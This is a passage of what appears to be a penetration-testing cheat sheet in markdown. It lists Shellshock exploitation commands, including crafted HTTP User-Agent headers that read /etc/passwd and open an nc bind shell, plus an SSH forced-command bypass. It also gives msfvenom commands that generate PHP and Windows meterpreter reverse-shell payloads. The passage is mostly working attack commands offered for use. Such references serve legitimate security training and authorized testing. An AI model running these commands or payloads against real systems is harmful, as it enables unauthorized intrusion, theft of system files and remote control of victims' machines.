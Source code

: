     {% highlight shell-session %}
      ./shocker.py -H TARGET --command "/bin/cat /etc/passwd" -c /cgi-bin/status --verbose
    {% endhighlight %}

  - Shell Shock SSH Forced Command

      Check for forced command by enabling all debug output with ssh

    {% highlight shell-session %}
      ssh -vvv
      ssh -i noob noob@$ip '() { :;}; /bin/shell-session'
    {% endhighlight %}

  - cat file (view file contents)

    {% highlight shell-session %}
      echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; echo \\$(</etc/passwd)\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
    {% endhighlight %}

  - Shell Shock run bind shell

    {% highlight shell-session %}
      echo -e "HEAD /cgi-bin/status HTTP/1.1\\r\\nUser-Agent: () {:;}; /usr/bin/nc -l -p 9999 -e /bin/sh\\r\\nHost:vulnerable\\r\\nConnection: close\\r\\n\\r\\n" | nc TARGET 80
    {% endhighlight %}

## Reverse Shell with Msfvenom

### List payloads

{% highlight shell-session %}
msfvenom -l
{% endhighlight %}

Or

{% highlight shell-session %}
msfvenom --list payloads
{% endhighlight %}

### Generate a PHP payload

{% highlight shell-session %}
msfvenom -p php/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
{% endhighlight %}

### Generate a Windows payload

#### Meterpreter - Reverse shell (x64):

{% highlight shell-session %}
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > reverse.exe
{% endhighlight %}
